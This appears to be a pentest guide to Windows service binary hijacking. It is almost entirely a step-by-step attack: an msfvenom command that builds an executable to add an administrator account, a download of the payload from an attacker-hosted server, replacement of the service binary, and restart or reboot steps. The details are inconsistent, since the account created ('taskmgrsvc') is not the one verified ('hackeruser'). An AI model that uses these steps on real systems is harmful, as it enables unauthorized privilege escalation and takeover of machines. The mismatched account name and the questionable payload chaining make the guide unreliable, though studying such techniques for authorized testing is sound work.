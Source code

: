 ## Service Binary Hijacking

### Overview
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state. 

A misconfiguration, where a service binary has **Full Control (F)** permissions for low-privileged users (e.g., BUILTIN\Users), allows attackers to replace the binary with a malicious executable. When the service restarts or the system reboots, the malicious binary will execute with the privileges of the service (e.g., LocalSystem).

---

### Step 1: Identify a Vulnerable File
Start by running **WinRecon.ps1** to locate services with weak permissions:

1. **Option 2**: Run Custom Recon - (Select which functions to enable)
2. **Option 17**: Enumerate files and services for **weak permissions**.

This will provide a list of binaries or services that have insecure permissions, such as Full Control for low-privileged users (e.g., BUILTIN\Users).

Example Output:
```plaintext
[+] Service: <service>
    Binary Path:<service_path>
    BUILTIN\Users:(F)
```
```plaintext
[+] Service: BackupService
    Binary Path:C:\backups\backupsvc.exe
    BUILTIN\Users:(F)
```

In this example, the binary `C:\backups\backupsvc.exe` has **BUILTIN\Users:(F)** permissions, making it a candidate for exploitation.

---

### Exploitation Stage

#### Step 2: Generate a Malicious Executable
On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

```bash
msfvenom -p windows/exec CMD="net user taskmgrsvc Password123! /add; net localgroup administrators taskmgrsvc /add" -f exe-service -o adduser.exe
```

- **Payload**: `windows/exec` runs arbitrary commands.
- **Commands**: 
   - `net user taskmgrsvc Password123! /add`: Creates a new user `taskmgrsvc`.
   - `net localgroup administrators hackeruser /add`: Adds `hackeruser` to the Administrators group.
- **Output**: The malicious binary is saved as `adduser.exe`.

---

#### Step 3: Transfer the Malicious Binary to the Target Machine
Start a Python HTTP server to host the malicious binary:

```bash
python3 -m http.server 80
```

On the target machine, download the malicious executable using PowerShell:

```powershell
iwr -uri http://<attacker_ip>/adduser.exe -OutFile adduser.exe
```

---

#### Step 4: Replace the Service Binary
1. Backup the original binary:
   ```powershell
   move <service_path> <file_name>.bak
   ```
2. Replace it with the malicious binary:
   ```powershell
   move .\adduser.exe <service_path>
   ```

Example:
```powershell
move C:\backups\backupsvc.exe backupsvc.exe.bak
move .\adduser.exe C:\backups\backupsvc.exe
```

---

#### Step 5: Restart the Service
1. **Stop the Service**:
   ```powershell
   sc.exe stop <service_name>
   ```
2. **Start the Service**:
   ```powershell
   sc.exe start <service_name>
   ```

Example:
```powershell
sc.exe stop BackupService
sc.exe start BackupService
```

If the service cannot be restarted manually due to insufficient permissions:

1. **Check Service Startup Type**:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
   ```
   Example:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupService'}
   ```
   Output:
   ```plaintext
   Name           StartMode
   ----           ---------
   BackupService  Auto
   ```

2. **Reboot the System**:
   Verify that the current user has the `SeShutdownPrivilege`:
   ```powershell
   whoami /priv
   ```
   Example Output:
   ```plaintext
   SeShutdownPrivilege           Shut down the system                 Enabled
   ```

   Reboot the machine:
   ```powershell
   shutdown /r /t 0
   ```

---

#### Step 6: Verify Exploitation
After the reboot or service restart, reconnect to the target machine and check if the user `hackeruser` has been added to the Administrators group:

```powershell
Get-LocalGroupMember administrators
```

**Output**:
```plaintext
ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        <system_name>\Administrator Local
User        <system_name>\hackeruser    Local
```

Example:
```plaintext
User        TARGETSYSTEM\Administrator Local
User        TARGETSYSTEM\hackeruser    Local
```

The output confirms the addition of `hackeruser` to the local Administrators group.

---

### Cleanup
To restore the original state of the service:
1. Delete the malicious binary:
   ```powershell
   del <service_path>
   ```
2. Restore the original binary:
   ```powershell
   move <file_name>.bak <service_path>
   ```
3. Restart the service:
   ```powershell
   sc.exe stop <service_name>
   sc.exe start <service_name>
   ```

Example:
```powershell
del C:\backups\backupsvc.exe
move backupsvc.exe.bak C:\backups\backupsvc.exe
sc.exe stop BackupService
sc.exe start BackupService
```

---

### Notes:
- This method relies on services running with high privileges (e.g., LocalSystem).
- Always back up the original binary to prevent accidental service disruption.
- Avoid rebooting production systems during penetration tests without authorization.

---

### References
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- Microsoft Documentation on `icacls` and `sc.exe`

---

**End of Service Binary Hijacking Exploit Guide**
